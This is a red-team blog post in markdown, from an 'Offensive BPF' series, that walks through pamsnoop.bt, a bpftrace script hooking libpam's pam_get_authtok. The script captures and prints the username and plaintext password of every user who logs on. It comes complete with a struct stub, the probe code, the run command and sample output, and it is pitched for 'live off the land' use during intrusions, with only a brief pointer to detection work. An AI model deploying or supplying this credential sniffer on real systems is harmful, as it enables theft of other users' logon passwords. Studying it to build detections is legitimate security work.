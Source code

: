 ```yaml
---
title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
date: 2022-07-10T20:00:13-07:00
draft: true
tags: [
        "pentest", "red","research","ebpf"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
  description:  "Using eBPF in offensive security settings and mitigations"
  image: "https://embracethered.com/blog/images/2021/obpf.png"

---
```


This post is part of a series about **Offensive BPF**. Click the ["ebpf"](/blog/tags/ebpf) tag to see all related posts.

![Offensive BPF](/blog/images/2021/offensive-bpf.png)

It has been a while that we posted something in the ["Offensive BPF"](/blog/tags/ebpf) series. But recently there have been a couple of new cool ebpf based tools, such as [TripleCross](https://github.com/h3xduck/TripleCross), [boopkit](https://github.com/kris-nova/boopkit) and [pamspy](https://github.com/citronneur/pamspy). 

So, I thought it be quite fitting to do another post in the Offensive BPF series to keep raising awareness.


# Let's sniff PAM again - pamsnoop.bt

A few weeks back we discussed a [backdoor PAM module](/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) to grab `authtok` tokens (e.g. SSH passwords) when someone logs on to a machine. In this post we will build an eBPF program using `bpftrace` to do the same. Kudos for the idea using eBPF go to [citronneur](https://github.com/citronneur/pamspy).


The short `bpftrace` script we are discussing is [here](https://github.com/wunderwuzzi23/Offensive-BPF/blob/main/bpftrace/pamsnoop.bt).

Let's walk through the details.

## Declaring the stub pam_handle struct

The  first step is to make sure we have the right data structure available. `pam_private.h` is [the header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h) in the Linux source. 

Technically you can  include the header file directly, but it might not be available if you trying to "live off the land" during a Red Team exercise. The `filler` is a bit of a hack, but it works quite well.

```
struct partial_pam_handle {
      char *filler[6];
      char *user;
};
```

Next, we create a `BEGIN` section to just show some information on the Console

```
BEGIN 
{ 
      printf("Welcome to Offensive BPF. Sniffing PAM authentications...");
      printf("Ctrl-C to exit.\n\n");
}
```

Now we create the core of the bpftrace program by hooking the `pam_getauthtok` call, reading the username and the password into a variable and printing them out once the function returns. 

```
uprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok {
      @user[tid] = ((struct partial_pam_handle *)arg0)->user;
      @authtok[tid] =  arg2;
}
    
uretprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok /@user[tid]/ {
  
      printf("Program: %s, Username: %s, AuthTok: %s\n", 
             comm, //process
             str(@user[tid]),  
             str(*@authtok[tid])); 
             
      delete(@user[tid]);
      delete(@authtok[tid]);
}
```

**Important:** If you have trouble understanding why there is a `uprobe` and a `uretprobe` go back in the ["Offensive BPF Series"](/blog/tags/ebpf) and to read up on how bpf programs are structured. 

Also, recall that `/ @user[tid] /` is the syntax to apply a filter.

## Running pamsnoop.bt

Run the script with `sudo bpftrace pamsnoop.bt`.

```
hacker@commodore:~$ sudo bpftrace tracepam.bt 
Attaching 3 probes...
Welcome to Offensive BPF. Sniffing PAM authentications...Ctrl-C to exit.

```

Now, whenever someone logs on to the machine you will see username and authentication token:

![pamsnoop](/blog/images/2022/ebpf.pam.png)

Quite useful when running across infrastructure that has `bpftrace` already installed.


# Conclusion

In this post we looked at more advanced `bpftrace` usage scenarios that adversaries can leverage and that defenders not to start being aware of. 

As a reminder, there is a defender/detection post we did in the past, located [here](/posts/2021/offensive-bpf-detections-initial-ideas/).


Cheers.


# References

* [pam_private header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h)
* [TripleCross](https://github.com/h3xduck/TripleCross) 
* [boopkit](https://github.com/kris-nova/boopkit) 
* [pamspy](https://github.com/citronneur/pamspy)
* [Offensive BPF Detection Ideas](/posts/2021/offensive-bpf-detections-initial-ideas/)

